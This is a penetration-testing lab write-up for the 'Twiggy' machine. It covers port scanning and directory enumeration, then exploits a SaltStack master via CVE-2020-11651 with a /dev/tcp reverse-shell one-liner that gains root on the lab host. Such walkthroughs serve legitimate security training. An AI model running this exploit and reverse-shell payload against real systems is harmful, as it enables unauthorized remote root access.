 # Twiggy (rough notes)

We start with the usual port-discovery `nmap` run:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 twiggy
...

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

And once again but with specific ports and the service fingerprinting option:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,53,80,4505,4506,8000 -A twiggy
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
```


UDP scan returned nothing:

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -sU -T4 --top-ports 100 twiggy
...
```

The webserver on port 80 has some Mezzanine CRM running.

![](./assets/mezzanine-crm.png)

I see a link to an admin login page and try default credentials, didn't work. I tried fuzzing the form with `ffuf` but that wasn't effective.

I spend some more time fumbling around the web app looking for potential vectors for abuse.

Mezzanine has XSS but not RCE exploits so I move on.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit mezzanine                     
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
Mezzanine 4.2.0 - Cross-Site Scripting    | python/webapps/40799.txt
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I move on to the the webserver on port 8000... It just has a bunch of keywords in a JSON object:

![](./assets/8000.png)

I enumerate paths with `gobuster`:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://twiggy:8000/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://twiggy:8000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 146]
/login                (Status: 200) [Size: 43]
/events               (Status: 401) [Size: 753]
/jobs                 (Status: 401) [Size: 753]
/stats                (Status: 401) [Size: 753]
/logout               (Status: 500) [Size: 823]
Progress: 4193 / 220561 (1.90%)[ERROR] Get "http://twiggy:8000/buyers_guide": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4437 / 220561 (2.01%)[ERROR] Get "http://twiggy:8000/dapper": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/keys                 (Status: 401) [Size: 753]
Progress: 5294 / 220561 (2.40%)[ERROR] Get "http://twiggy:8000/top-left": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/run                  (Status: 200) [Size: 146]
/token                (Status: 200) [Size: 146]
/Espa%c3%b1ol         (Status: 500) [Size: 1455]
/Fran%c3%a7ais        (Status: 500) [Size: 1455]
/%E9%A6%96%E9%A1%B5   (Status: 500) [Size: 1455]
/Espa%C3%B1ol         (Status: 500) [Size: 1455]
/Fran%C3%A7ais        (Status: 500) [Size: 1455]
/%C0                  (Status: 500) [Size: 1455]
/P%C3%A1gina_principal (Status: 500) [Size: 1455]
/Portugu%c3%aas       (Status: 500) [Size: 1455]
/Inform%c3%a1tica     (Status: 500) [Size: 1455]
   (... a lot more paths with 500s ...)
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

All of either just show an error with no information or serve the original JSON object.

I move on to the ZeroMQ ZMTP servers... I've got nothing here, so I just search for "zeromq" and "zmtp" in exploit-db:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit zeromq
Exploits: No Results
Shellcodes: No Results
                                                                                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ searchsploit zmtp  
Exploits: No Results
Shellcodes: No Results
```

Getting desperate... I look up the words from the server in Google...

![](./assets/saltstack.png)

I learn that this might be a SaltStack set-up... with the servers on 4505 and 4506 being a "minion" and a "master".

I search exploitdb for "saltstack":

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ searchsploit saltstack
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution    | multiple/remote/48421.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This is promising... I run the code! I point it at `8000` and `4505` first with no luck. But then when I point it at `4506`... the script at least gets further... and confirms that we have the right idea.

I tried reverse shells in python and perl, but they wouldn't work. Eventually I tried a `sh` reverse shell and used port 80 for my local listener. That worked:

```
┌──(kali㉿kali)-[~]
└─$ python 48421.py --master 192.168.234.62 --port 4506 --exec "0<&196;exec 196<>/dev/tcp/192.168.45.240/80; sh <&196 >&196 2>&196"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.234.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to execute 0<&196;exec 196<>/dev/tcp/192.168.45.240/80; sh <&196 >&196 2>&196 on 192.168.234.62
[+] Successfully scheduled job: 20240308022347242184
/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py:281: TransportWarning: Unclosed transport! <salt.transport.zeromq.RequestClient object at 0xffff90ad2d10> 
  File "/home/kali/48421.py", line 376, in <module>
    main()
  File "/home/kali/48421.py", line 325, in main
    channel = init_minion(args.master_ip, args.master_port)
  File "/home/kali/48421.py", line 47, in init_minion
    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py", line 31, in factory
    return salt.channel.client.ReqChannel.factory(opts, **kwargs)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/channel/client.py", line 55, in factory
    return SyncWrapper(
  File "/home/kali/.local/lib/python3.11/site-packages/salt/utils/asynchronous.py", line 77, in __init__
    self.obj = cls(*args, **kwargs)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/channel/client.py", line 137, in factory
    transport = salt.transport.request_client(opts, io_loop=io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py", line 59, in request_client
    return salt.transport.zeromq.RequestClient(opts, io_loop=io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/zeromq.py", line 1067, in __init__
    super().__init__(opts, io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py", line 297, in __init__
    super().__init__()
  warnings.warn(
TransportWarning: Enable tracemalloc to get the object allocation traceback

```

We landed as `root`

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.240] from (UNKNOWN) [192.168.234.62] 38182
whoami
root
cat /root/proof.txt
076bf68c9fa762e3ff27430bda710300
```

> I am still not sure if the last attempt worked because I did port 80 for the local listener (maybe some egress rules on the victim box?), or if I was having issues escaping quotes properly for the python and perl reverse shells...